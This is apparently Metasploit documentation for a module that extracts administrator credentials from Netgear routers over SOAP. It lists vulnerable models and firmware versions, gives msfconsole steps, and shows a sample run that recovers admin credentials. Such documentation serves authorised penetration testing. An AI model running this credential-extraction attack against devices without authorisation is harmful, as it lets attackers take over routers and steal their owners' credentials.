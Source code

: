 ## Vulnerable Application

The following list is a non-exhaustive list of vulnerable Netgear devices:
1.  R6300v2 - V1.0.3.8
2.  WNDR3300 - V1.0.45
3.  WNDR3700v1 - V1.0.7.98
4.  WNDR3700v1 - V1.0.16.98
5.  WNDR3700v2 - V1.0.1.14
6.  WNDR3700v4 - V1.0.1.42
7.  WNDR3700v4 - V1.0.0.4SH
8.  WNDR3700v4 - V1.0.1.52
9.  WNDR3800 - V1.0.0.48
10. WNDR4300 - V1.0.1.60
11. WNR1000v2 - V1.0.1.1
12. WNR1000v2 - V1.1.2.58
13. WNR2000v3 - v1.1.2.10
14. WNR2200 - V1.0.1.88
15. WNR2500 - V1.0.0.24

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/admin/http/netgear_soap_password_extractor```
  3. Do: ```set rhost <ip>```
  4. Do: ```run```
  5. You should get admin info on the device

## Scenarios

  Example run against wnr2000v3 with firmware 1.1.2.10:

```
msf > use auxiliary/admin/http/netgear_soap_password_extractor 
msf auxiliary(netgear_soap_password_extractor) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf auxiliary(netgear_soap_password_extractor) > run

[*] Trying to access the configuration of the device
[*] Extracting Firmware version...
[+] Model wnr2000v3 found
[+] Firmware version V1.1.2.10 found
[+] Device details downloaded to: /root/.msf4/loot/20160701181449_default_192.168.1.1_netgear_soap_dev_668524.txt
[*] Extracting credentials...
[*] Credentials found, extracting...
[+] admin / password credentials found
[+] Account details downloaded to: /root/.msf4/loot/20160701181449_default_192.168.1.1_netgear_soap_acc_252579.txt
[*] Auxiliary module execution completed

```

